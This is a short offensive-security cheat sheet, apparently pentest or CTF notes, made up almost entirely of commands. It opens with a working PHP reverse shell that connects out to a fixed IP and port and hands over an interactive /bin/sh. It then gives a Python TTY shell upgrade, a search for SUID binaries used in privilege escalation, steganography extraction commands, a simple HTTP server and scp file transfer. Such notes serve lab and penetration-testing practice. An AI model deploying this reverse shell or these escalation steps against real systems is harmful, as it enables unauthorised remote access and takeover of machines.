 ### PHP reverse shell payload

```php
<?php
$ip = '192.168.1.10';
$port = 4444;

$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

### Shell Upgrade:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### SUID Binaries

```bash
find / -perm -u=s -type f 2>/dev/null
```

### Steganography

```bash
exiftool fileName.jpg
steghide extract -sf fileName.jpg
binwalk -e fileName.png
```

Binwalk fix:

```bash
sed -i 's/CS_ARCH_ARM64/CS_ARCH_AARCH64/g' /usr/lib/python3/dist-packages/binwalk/modules/disasm.py
```

### Python Simple Server

```bash
python -m SimpleHTTPServer
```

### Secure File Transfer

```bash
scp userName@IP:fileName.jpg .
```
